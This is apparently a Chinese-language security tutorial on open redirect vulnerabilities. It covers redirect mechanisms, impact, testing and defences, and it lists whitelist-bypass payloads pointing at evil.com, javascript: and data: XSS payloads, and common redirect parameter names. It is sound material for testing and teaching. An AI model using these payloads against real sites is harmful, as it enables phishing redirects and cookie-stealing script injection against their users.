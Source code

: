 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

* 跳转方式1 HTTP Response Code & Header
  * HTTP Response Status Code - Redirection `3xx`
    - [300 Multiple Choices](https://httpstatuses.com/300)
    - [301 Moved Permanently](https://httpstatuses.com/301)
    - [302 Found](https://httpstatuses.com/302)
    - [303 See Other](https://httpstatuses.com/303)
    - [304 Not Modified](https://httpstatuses.com/304)
    - [305 Use Proxy](https://httpstatuses.com/305)
    - [307 Temporary Redirect](https://httpstatuses.com/307)
    - [308 Permanent Redirect](https://httpstatuses.com/308)
  * HTTP Response Header
    - `Location: `
* 跳转方式2 `meta`标签
    - 绝对路径 `<meta http-equiv="Refresh" content="0; url=https://www.w3docs.com" />` 0秒跳转
    - 相对路径 `<meta http-equiv="Refresh" content="3.5; url=../" />` 3.5秒跳转
* 跳转方式3 Javascript实现跳转
  * 1.`window.location.href`
    * 绝对路径 `window.location.href='http://evil.com';`
      * 如果参数可控则能XSS `window.location.href="javascript:alert(document.cookie)";`
    * 相对路径 `window.location.href='../../';`  会从当前url`http://a.com/1/2/3/`跳转到`http://a.com/1/`
      * 如果`../`非常多则跳转到`http://a.com/`
  * 2.`window.location.replace`
    * 绝对路径 `location.replace("http://new.tld?para=1#title");`
      * 如果参数可控则能XSS `location.replace("javascript:alert(document.cookie)");`
    * 相对路径 `location.replace("../");`
  * 3.待补充


**触发漏洞**
```
访问
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
浏览器访问famous-website.tld 如果被重定向到域evil.tld 则存在任意重定向漏洞
```

### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * redirection - 合法域名white.com下 实现重定向 到"钓鱼"等其他网站
  * XSS - 合法域名white.com下 实现XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化测试 - 测试是否存在"任意重定向漏洞" (跳转+XSS)


**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 1.设置"允许的标准"
  * "域名白名单"
  * "地址的预期格式"
    * 地址 - 地址的开头必须是`https://`
    * 域名 - 域名的最后面的字符串必须是`.white.com`
* 2.正确处理用户输入. 使用编程语言的API获取域名.
* 3.严格验证用户输入. 如果不符合"允许的标准" 则直接`return` 不向下执行.
  * 验证用户输入的参数值的"内容".  如果 不符合 "域名白名单", 则直接`return` 不向下执行.
  * 验证用户输入的参数值的"格式".  如果 不符合 "地址的预期格式" 则直接`return` 不向下执行.
  * 限制用户输入的参数值的"最大长度". 如果超过 "域名白名单"里 最长的域名, 则直接`return` 不向下执行.

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)
